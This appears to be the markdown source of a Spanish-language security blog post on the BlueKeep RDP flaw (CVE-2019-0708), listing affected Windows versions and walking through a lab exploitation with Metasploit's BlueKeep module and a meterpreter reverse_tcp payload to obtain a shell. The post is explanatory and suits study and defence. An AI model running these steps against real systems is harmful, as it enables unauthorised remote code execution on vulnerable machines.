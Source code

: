 ```yaml
---
layout: single
title: CVE-2019-0708 - Vulnerabilidades
excerpt: "la vulnerabilidad del servicio de escritorio remoto de Windows BlueKeep permite a los usuarios no autenticados realizar la ejecución remota de código."
date: 2023-08-25
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2019-0708/cve-2019-0708.png
  teaser_home_page: true
  icon: /assets/images/rdp.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2022-46169
  - BlueKeep
  - RDP
  - Metasploit
  
---
```


![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-0708.png)

## Descripción

Esta vulnerabilidad de ejecución remota de código afecta al Servicios de Escritorio Remoto (RDP), anteriormente conocidos como Terminal Server. Esta vulnerabilidad es de pre-autenticación y no requiere la interacción del usuario. En otras palabras, esta vulnerabilidad actúa como un Gusano, lo que significa que cualquier malware que explote el fallo podría propagarse rápidamente a otras máquinas vulnerables. Este caso es similar al malware WannaCry que se extendió por todo el mundo en el año 2017.

•	CVE: CVE-2019-0708

•	Factor de Riesgo: Alto

•	Valor CVSS Base: 9.8


## ¿Qué es BlueKeep?

BlueKeep es una vulnerabilidad de software que afecta a versiones antiguas de Microsoft Windows. El riesgo es significativo porque ataca el Protocolo de escritorio remoto (RDP) del sistema operativo, que permite conectar con otro ordenador a través de una conexión de red. De este modo, una ciberamenaza podría extenderse a gran velocidad. Se detectó por primera vez en mayo, en el Centro Nacional de Ciberseguridad del Reino Unido. Desde mediados de mayo de 2019.

## Productos Afectados:

•	Microsoft Windows 7 for 32-bit Systems SP1 

•	Microsoft Windows 7 for x64-based Systems SP1 

•	Microsoft Windows Server 2003

•	Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1 

•	Microsoft Windows Server 2008 R2 for x64-based Systems SP1 

•	Microsoft Windows Server 2008 for 32-bit Systems SP2

•	Microsoft Windows Server 2008 for Itanium-based Systems SP2 

•	Microsoft Windows Server 2008 for x64-based Systems SP2 

•	Microsoft Windows XP

# Explotación:

Para esta demostración atacaremos desde un sistema operativo Kali Linux y como equipo víctima utilizaremos un sistema Windows 7.

•	Ejecutamos en la terminal msfconsole para ejecutar Metasploit

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07081.png)

•	use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07082.png)

•	set PAYLOAD windows/x64/meterpreter/reverse_tcp

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07083.png)

•	set RHOSTS <dirección IP de la víctima> (x64 Windows 7 o 2008 R2)

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07084.png)

•	set TARGET a un objetivo más específico basado en su entorno

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07085.png)

Comprobemos que tenemos Shell.

![](/assets/images/vulnerabilidades/cve-2019-0708/cve-2019-07086.png)

